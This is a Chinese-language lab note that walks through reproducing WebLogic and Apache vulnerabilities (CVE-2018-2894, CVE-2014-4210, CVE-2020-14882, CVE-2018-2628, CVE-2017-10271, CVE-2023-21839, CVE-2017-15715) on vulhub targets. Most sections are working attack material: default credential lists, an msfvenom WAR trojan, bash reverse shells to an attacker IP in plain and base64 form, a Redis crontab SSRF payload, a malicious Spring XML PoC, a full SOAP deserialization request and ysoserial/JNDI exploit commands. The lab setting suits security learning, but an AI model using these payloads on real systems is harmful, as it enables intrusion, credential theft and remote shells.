




# 中间件漏洞

## weblogic漏洞

```
需要学习复现的漏洞。
```

	

	

```
weblogic基本介绍
全名：Oracle WebLogic Server，JavaEE服务器
商业产品，适用于大型商业项目
同类产品：IBM WebSphere、Apache Tomcat、Redhat Jboss
常见版本：
WebLogic Server 10.x ——11g
WebLogic Server 12.x ——12c
vulhub靶场——基于WebLogic Server 10.3.6
默认端口：7001

历史漏洞概括
CVE数据库-weblogic
https://www.cvedetails.com/vulnerability-list/vendor_id-93/product_id- 14534/Oracle-Weblogic-Server.html
多为反序列化漏洞
参考文章（奇安信CERT）
https://mp.weixin.qq.com/s/qxkV_7MZVhUYYq5QGcwCtQ
```

```
漏洞环境搭建
漏洞靶机（CentOS）：192.168.142.133
攻击机（Kali）:192.168.142.162
vulhub（phith0n）
《187-Docker安装vulhub靶场.docx》
注意相关靶场端口都是7001，一次只能启动一个。
docker-compose up -d // 拉取、启动
docker-compose ps // 查看进程
docker-compose stop // 停止
```

```
漏洞利用工具
奇安信搭建工具（其他版本）
https://github.com/QAX-A-Team/WeblogicEnvironment
课程涉及工具：
CentOS、Kali、BurpSuite
解密工具
https://github.com/TideSec/Decrypt_Weblogic_Password
weblogic漏洞综合利用工具（深信服）
https://github.com/KimJun1010/WeblogicTool
```

### 弱口令、任意文件读取

```
首先部署靶场。
```

	

```
查看容器是监听哪个端口，发现是从7001，访问该网站先访问/console资源，进行初始化，初始化后会进入到登录网站的界面。于是尝试通过弱口令看看是否能够登录。
```

	

```
弱口令漏洞
这里我们可以使用弱口令来尝试登陆界面，Weblogic常用的弱口令密码有如下几种:
system:password
weblogic:weblogic
admin:secruity
joe:password
mary:password
system:sercurity
wlcsystem: wlcsystem
weblogic:Oracle@123
```

```
于是通过其中一个弱口令组合登录成功。
```

	

```
假设弱口令无法成功，但是这个网站的某个资源存在文件任意读取的漏洞
我们访问这个IP地址，http://192.168.15.50:7001/hello/file.jsp?path=/etc/passwd，这个地址存在任意文件读取漏洞，我们输入这点URL后，浏览器会下载一个file.htm文件
```

```
打开这个下载的文件，里面可以查看这个服务器所存在的用户信息。
```

	

```
现在我们知道了这个路径存在任意文件读取漏洞，那我们该如何利用这个漏洞呢？Weblogic的服务器存在两个文件，密文和密钥，Weblogic的服务器存储密文的绝对路径是： /root/Oracle/Middleware/user_projects/domains/base_domain/security/SerializedSystemIni.dat，相对路径是：security/SerializedSystemIni.dat，
密钥文件的绝对路径是： /root/Oracle/Middleware/user_projects/domains/base_domain/config/config.xml，相对路径是：config/config.xml
```

```
由于密文是dat后缀，里面都是二进制，直接读取比较麻烦，需要使用bp抓取指定的密文内容。
访问该网站并抓包，放到repeater,并点击send,把密文的部分保存起来。点击右键copy to file,保存文件名为111.dat。
http://192.168.15.50:7001/hello/file.jsp?path=/root/Oracle/Middleware/user_projects/domains/base_domain/security/SerializedSystemIni.dat
```

		

```
访问这个地址，获取密钥文件。下载下来查看即可得到aes的密钥。
http://192.168.15.50:7001/hello/file.jsp?path=/root/Oracle/Middleware/user_projects/domains/base_domain/config/config.xml
```

	

```
打开Weblogic解密工具,进行解密，密文放入aes密钥。于是解密出密码。

如果报错，换成jdk8的环境
并且需要手动下载这个jar包。
https://repo1.maven.org/maven2/org/bouncycastle/bcprov-jdk15on/1.56/bcprov-jdk15on-1.56.jar
然后将文件存在本地安装的JDK路径下，例如 E:\Java\jdk1.8.0_60\jre\lib\ext
```

		

```
注意:kali机器最好使用2021版本的，太新版本可能会复现漏洞失败。
接下里生成Java环境的war包木马
msfvenom -p java/meterpreter/reverse_tcp lhost=192.168.15.128 lport=4444 -f war -o java.war
```

	

```
登录访问网站。上传木马文件。首先点击部署中的安装
```

	

```
点击上载文件，接下来一直下一步，选择java.war木马文件。
```

	

	

```
然后kali开始监听
msfconsole	
use exploit/multi/handler
set payload java/meterpreter/reverse_tcp
set LHOST 192.168.15.128
set LPORT 4444
exploit
```

	

```
当点击访问java.war的地址，即可得到msf会话。
http://192.168.15.50:7001/java
```

		

### CVE-2018-2894

```
启动靶场
```

	

```
首先该漏洞是基于已经得知用户设置不严谨，开启了测试页导致漏洞的发生。
首先通过查看靶场日志来获得密码，并登录。
```

	

```
登录到后台，我们按照登录 -> base-domain ->高级 -> 开启 web测试页 -> 保存的顺序，开启 Web Service Test Page
```

	

```
勾选并保存即可。
```

	

```
看看能否访问weblogic的测试页。
http://192.168.15.50:7001/ws_utc/config.do
并修改当前工作路径
/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css

```

	

```
上传大马文件。
```

	

```
从源码中找到时间搓
```

	

```
访问并登录。密码为password
http://192.168.15.50:7001/ws_utc/css/config/keystore/时间搓_dama.jsp
```

	

```
于是即可使用大马进行远程操作，比如扫描靶机端口，或者远程命令执行。
```

	

### CVE-2014-4210 SSRF

```
1、SSRF是Server-side Request Forge的缩写，中文翻译为服务端请求伪造。
产生的原因是由于服务端提供了从其他服务器应用获取数据的功能，并且没有对地址和协议等做过滤和限制。
2、利用SSRF漏洞可以发送Redis协议数据，执行Redis相关命令，进而getshell.

影响版本：weblogic 10.0.2 – 10.3.6
```

```
启动靶场
```

	

```
访问该网站，并点击search publc registires.
http://192.168.15.50:7001/uddiexplorer/
```

	

```
随便输入一点内容，然后抓包。
```


```
查看一下靶场容器的ip。查询redis的ip地址。
```

	

```
将抓包的operator字段内容修改成http://172.21.0.2:6379,并发送，发现收到了来自容器靶场的6379端口的回复，说明具备ssrf漏洞，也确定了6379的开放性。
```

	`

```
于是将准备好的payload,进行url编码。以便发送给redis服务器。下面的payload是每一秒都会将shell反弹给攻击机
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/192.168.15.128/7777 0>&1' \n\n\n\n" config set dir /etc/
config set dbfilename crontab
save
```

```
放到该网站进行url编码，并复制下来。
http://www.kuquidc.com/enc/urlencode.php
```

		

```
将所有%0A替换成%0D%0A（Redis协议以 CRLF 结尾（即“\r\n”））
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.15.128%2F7777%200%3E%261'%20%5Cn%5Cn%5Cn%5Cn%22%20%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
```

```
一般情况下，会在末尾处做混淆也会加%0D%0A.
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.15.128%2F7777%200%3E%261'%20%5Cn%5Cn%5Cn%5Cn%22%20%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0Alalala
```

```
生成最后的payload，以redis协议发送让其执行命令。
其中可能疑惑的点在于/test是哪来的，其实这个可以随便填，加上%0D%0A%0D%0A是用于混淆。
http://172.21.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.15.128%2F7777%200%3E%261'%20%5Cn%5Cn%5Cn%5Cn%22%20%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0Alalala
```

```
kali进行监听
nc -lvvp 7777
```

	

```
抓包发送payload，根据response回包，也可以发现发给redis服务器的内容是没问题的。
```

		

```
于是获得shell。
```

	

### CVE-2020-14882-远程代码执行

```
weblogic未授权漏洞：CVE-2020-14882
weblogic命令执行漏洞：CVE-2020-14883
1、CVE-2020-14882允许未授权的用户绕过管理控制台（Console）的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。
2、使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。
原理分析（拓展资料）：https://xz.aliyun.com/t/8470
影响版本：
10.3.6.0.0
12.1.3.0.0
12.2.1.3.0
12.2.1.4.0
14.1.1.0.0
```

```
启动靶场。
```

	

```
1、执行payload后不回显，但是已经执行成功。使用GET请求或者使用dnslog平台进行验证
2、执行payload后回显，通过GET方式进行payload提交，通过POST方式进行payload提交
3、通过把payload构造为XML格式进行引用（本节课演示的方法）
```

```xml
首先根据该地址下载poc.xml
https://github.com/GGyao/CVE-2020-14882_ALL/tree/master
修改其中的内容,将反弹连接的ip写成攻击机的ip
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
	<value>/bin/bash</value>
	<value>-c</value>
	<value><! [CDATA[bash -i >& /dev/tcp/192.168.15.128/5555 0>&1]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>

```

```
将poc.xml放到kali下，并在当前目录启动web服务器，以便靶机能够访问pom.xml文件。
python -m http.server 8888
```

	

```
能够正常访问这个xml文件，说明语法没问题。
```

	

```
进行端口监听
nc -lvvp 5555
```

	

```
先访问测试一下，判断是否有未授权访问。无需登录即可访问后台，这就利用了CVE-2020-14882的漏洞。
http://192.168.15.50:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=JmsSAFAgentSAFAgentTablePage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29
```

	

```
访问该网站，让其解析poc.xml内容，从而反弹shell到kali上。
http://192.168.15.50:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://192.168.15.128:8888/poc.xml")
```

	

### CVE-2018-2628 T3协议反序列化漏洞

```
1、Weblogic开放控制台的7001端口，默认会开启T3协议服务
2、Weblogic的T3协议实现了RMI（远程方法调用），在WebLogic Server 和其他 Java 程序间传输数据
3、T3协议的缺陷触发了Weblogic Server WLS CoreComponents中存在的反序列化漏洞
4、攻击者可以发送构造的恶意T3协议数据，服务器反序列化以后执行恶意代码，获取到目标服务器权限

影响版本：
10.3.6.0
12.1.3.0
12.2.1.2
12.2.1.3
```

```
启动靶场。
```

	

```
首先检测靶场端口是否开放，以及是否启用了T3协议。
nmap -n -v -p 7001,7002 192.168.15.50 --script=weblogic-t3-info
```

	

```
简单了解反序列化的利用流程。
让漏洞服务器主动去连接攻击方的让JRMP提供的RMI服务器,当连接之后就会触发发送第二个序列化的内容给漏洞服务器，当漏洞服务器进行反序列化就会自动执行恶意代码。
```



```
复现的具体步骤
1、kali启动JRMPListener，参数包含恶意代码恶意代码的作用是连接到7777端口）
2、kali创建7777端口监听
3、运行poc.py，让漏洞服务器主动连接RMI服务器，进而下载恶意代码，建立反弹连接
```

```
首先生成payload，将下列payload放到payload生成网站。生成后复制下来。
bash -i >& /dev/tcp/192.168.15.128/7777 0>&1
payload生成网站：https://wiki.bafangwy.com/doc/401/
```

		

```
kali启动JRMPListener,将复制的payload粘贴到指定部分即可。
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 8761 CommonsCollections1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1LjEyOC83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}"
```

	

```
kali进行端口监听，等待反弹shell.
nc -lvvp 7777
```

	

```
kali运行运行POC（只支持Python2）,目的是让靶机去连接RMI服务器。
python2 cve-2018-2628-exp.py 192.168.15.50 7001 ysoserial.jar 192.168.15.128 8761 JRMPClient
```

	

```
获得shell成功。
```

	

### CVE-2017-10271-XML反序列化漏洞

```
Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。
原理分析（拓展资料）：https://xz.aliyun.com/t/10172

影响版本：
10.3.6.0.0
12.1.3.0.0
12.2.1.1.0
12.2.1.2.0
```

```
启动靶场。
```

	

```
访问weblogic的这个路径。能够访问说明可以进行反序列化漏洞
http://192.168.15.50:7001/wls-wsat/CoordinatorPortType
```

	

```
首先kali监听端口。
```

	

```
然后使用bp把以下内容放到repeater运行即可，其中host部分填靶机，反弹shell填攻击机的ip。
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.15.50:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 640

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.15.128/8888 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

	

```
于是收到shell了。
```

	

### CVE-2023-21839-JNDI注入漏洞

```
1、T3/IIOP协议支持远程绑定对象bind到服务端，而且可以通过lookup代码c.lookup("xxxxxx"); 查看
2、远程对象继承自OpaqueReference并lookup查看远程对象时，服务端会调用远程对象getReferent方法
3、由于weblogic.deployment.jms.ForeignOpaqueReference继承自OpaqueReference并实现getReferent方法，存在retVal =context.lookup(this.remoteJNDIName)实现，所以能够通过RMI/LDAP远程协议进行远程命令执行。

影响版本：
12.2.1.3.0
12.2.1.4.0
14.1.1.0.0
```

```
启动靶场。
```


```
首先生成payload，将下列payload放到payload生成网站。生成后复制下来。
bash -i >& /dev/tcp/192.168.15.128/7777 0>&1
payload生成网站：https://wiki.bafangwy.com/doc/401/
```

	

```
kali启动LDAP服务器，指定payload。由于我的kali使用jdk8版本，并且LADP协议要比rmi更不容易被过滤，所以选择ldap协议的地址。
java -jar JNDI-Injection-Exploit-1.0.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1LjEyOC83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}"
```

	

```
kali监听端口
nc -lvp 7777
```

	

```
Windows向漏洞服务器发送poc，让漏洞服务器去lookup这个ladp地址。当连接这个ldap就会把ldap的payload给到漏洞服务器。
CVE-2023-21839.exe -ip 192.168.15.50 -port 7001 -ldap ldap://192.168.15.128:1389/6o2k0m
```

	

```
于是获得shell。
```

	

## apache解析漏洞

### CVE-2017-15715

```
启动靶场
```

	

```
上传一句话木马时进行bp抓包
```

	

```
后缀的hex十六进制修改成0a。由于这个靶场是对php后缀进行过滤。所以可以加上\n换行进行绕过。这里的绕过利用了post请求中的正则表达式。
```

	

```
中国蚁剑连接即可。
```

	


